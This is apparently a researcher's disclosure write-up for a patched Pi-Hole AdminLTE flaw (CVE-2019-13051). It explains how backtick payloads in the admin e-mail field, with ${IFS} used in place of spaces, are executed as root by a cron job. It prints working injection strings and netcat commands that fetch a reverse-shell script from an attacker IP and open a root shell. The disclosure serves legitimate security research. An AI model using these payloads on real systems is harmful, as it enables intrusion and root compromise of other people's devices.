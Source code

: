 ## Pi-Hole < 4.3.2 Command Injection & PrivEsc (CVE-2019-13051)

*Pi-Hole version 4.3.2 contains a patch to this vulnerability: https://github.com/pi-hole/AdminLTE/pull/974*

A big thanks to the Pi-Hole dev team for their awesome project and for making it so easy to report this vulnerability!

### Executive Summary
It is possible to remotely gain root access on the RaspberyPi device (or whichever device/VM the application is running on) through the described vulnerabilities on the "AdminLTE" component. Administrative access/credentials to the AdminLTE web interface is required in order to exploit this. 

In more detail, it is possible to bypass regular expression checks and pollute the "Administrator E-mail Address" field with arbitrary command(s). These are in turn stored in "/etc/pihole/setupVars.conf" which are then subsequently parsed and executed with **root** privileges from the 10 minute cron.d job “/usr/local/bin/pihole updatechecker local”.

### Attack Pre-requisites 
1) Network connectivity to the Administrative Pi-Hole web-application (AdminLTE). 
2) Set of credentials for the AdminLTE web-application.

### Limitations
An attacker has to wait for the 10minute interval of the cron job "/etc/cron.d/pihole" for command/code execution.

### Technical Description
Hopefully the following details and PoC will help with your validation & reproduction of the issue.

Once authenticated to the web-application there are a few server-side validations which an attacker needs to bypass to successfully inject a command.

On "savesettings.php" L:499 a user-controlled variable "$adminemail" is evaluated against the FILTER_VALIDATE_EMAIL internal PHP function which checks are relatively weak. 

It is then possible to bypass this validation check and prove command injection by simply enclosing a set of back ticks in double-quotes for example, entering the following as the administrator's e-mail:

``"`test>/tmp/poc_proof.txt`"@example.com``

![Screenshot 1](image001.png?raw=true)

Within 10 minutes a root owned file containing "test" will be created within "/tmp/poc_proof.txt" with root privileges.

![Screenshot 2](image003.jpg?raw=true)

In order to perform any further meaningful attacks one also needs to bypass the limitation of whitespaces (which aren't valid e-mail characters and are being caught by FILTER_VALIDATE_EMAIL function). For this, the internal linux variable ${IFS} was utilised (which defaults to whitespace in most unix os's).

**PoC:**

*Note: this could be automated with a 1-liner using POSIX shell grammar i.e. &&, || ... 

1. Ensure you have your script delivery mechanism ready on your attacking machine. I.e. On the attacking machine:

`nc -nvlp 4444 < revshell.py`

2. Submit 1st command within "Administrator E-mail Address" field to trigger retrieval and storage of a reverse shell python script in "/tmp/revshell.py":

``"`nc${IFS}192.168.1.69${IFS}4444>/tmp/revshell.py`"@example.com``

![Screenshot 3](image005.png?raw=true)

The HTTP request will look like this when examined with an HTTP proxy:

![Screenshot 4](image007.png?raw=true)
 
Wait 10 minutes for the cron  job to run and grab the script or for reproduction purposes manually run `/usr/local/bin/pihole updatechecker local`. You can also validate the injected command residing in "/etc/pihole/setupVars.conf" (found assigned to the ADMIN_EMAIL variable)

3. Ensure you have your shell catch service ready. I.e. on the attacking machine:

`nc -nvlp 4445`

4. Finally, you can submit the following:

``“`python${IFS}/tmp/revshell.py`”@example.com``

Once again wait for 10 minutes (or execute cron script manually for issue reproduction purposes) and you will retrieve a root shell on your attacking machine. 

![Screenshot 1](image009.jpg?raw=true)
